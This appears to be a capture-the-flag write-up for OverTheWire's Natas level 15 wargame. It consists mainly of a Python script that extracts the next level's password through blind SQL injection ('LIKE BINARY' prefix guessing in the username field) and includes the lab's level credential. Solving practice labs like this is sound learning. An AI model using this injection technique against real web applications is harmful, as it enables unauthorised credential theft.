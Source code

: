 ![source code](./pictures/level15/sourcecode.png)

I wrote a python script to brute force it.

```python
import requests

words = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890"

username = "natas15"
password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"
url = "http://natas15.natas.labs.overthewire.org"

session = requests.Session()

current_pw = ""
n = 0

while True:
    for ch in words:
        n += 1
        temp_pw = current_pw + ch
        print(f"Try {n} times: {temp_pw}")

        response = session.post(
            url,
            data={"username": 'natas16" AND password LIKE BINARY "' + temp_pw + '%" #'},
            auth=(username, password),
        )

        if "exists" in response.text:
            current_pw += ch
            break

    if len(current_pw) == 32:
        print("Finish!")
        break
```